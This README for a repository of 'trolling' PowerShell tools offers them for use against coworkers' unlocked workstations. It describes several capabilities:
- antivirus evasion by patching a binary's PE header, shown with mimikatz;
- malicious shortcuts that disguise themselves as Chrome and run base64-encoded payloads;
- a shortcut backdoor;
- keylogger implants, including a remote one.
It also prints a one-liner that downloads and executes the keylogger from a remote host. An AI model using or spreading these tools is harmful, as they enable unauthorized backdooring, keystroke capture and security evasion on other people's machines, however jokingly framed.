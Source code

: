 # trollsrc
PoCs to share for trolling
## WARNING, THIS REPO IS FOR ADVANCED PERSISTENT TROLLS ONLY
These tools are intended to be used in a well-configured windows environment that allows for some user-level powershell execution.
Have a problem with admins leaving their workstations unlocked? Teach them a lesson by performing a benign backdoor on their primary web browser and wait :D

## .\Invoke-Dickfuscation.ps1 -target C:\mimikatz.exe
* Takes a target binary
* Bypasses most AV by overwriting the 'This program cannot be run in DOS mode' PE bytes with an ASCII cock

## .\Invoke-DickBomb.ps1 -target 8.8.8.8 -port 53 -count 3
* Sends a naughty message several times to a given socket.

## .\make-shortcut.ps1
* Generates malicious shortcut links (chrome Icon mimicked by default)
* Takes powershell 1 liners as an optional argument; base64 encodes and executes payload when the icon is clicked

## .\bd-lnk.ps1 
* Takes a shortcut path as an argument; backdoors it with a troll message payload
* it will backdoor the link with a powershell troll msg and then redirect execution to the original application
* this will copy the source icon to $env:homepath\trollz\linkbackup\$foo.lnk for restoration
* .\bd-lnk.ps1 -sourcepath "$env:homepath\desktop\google chrome.lnk" 

## .\keyimp.ps1
* keyimp-ri.ps1 is intended for REMOTE implants, i.e. this can be run on a system via WinRM 
* keyimp.ps1 and simple-keyimp.ps1 are intended to be loaded from the target user session (unlocked workstation)
* loads up a keylogger that pops calc.exe anytime 'c' is pressed
* iex (new-object system.net.webclient).downloadstring("https://raw.githubusercontent.com/pooki3bear/trollsrc/master/keyimp.ps1")

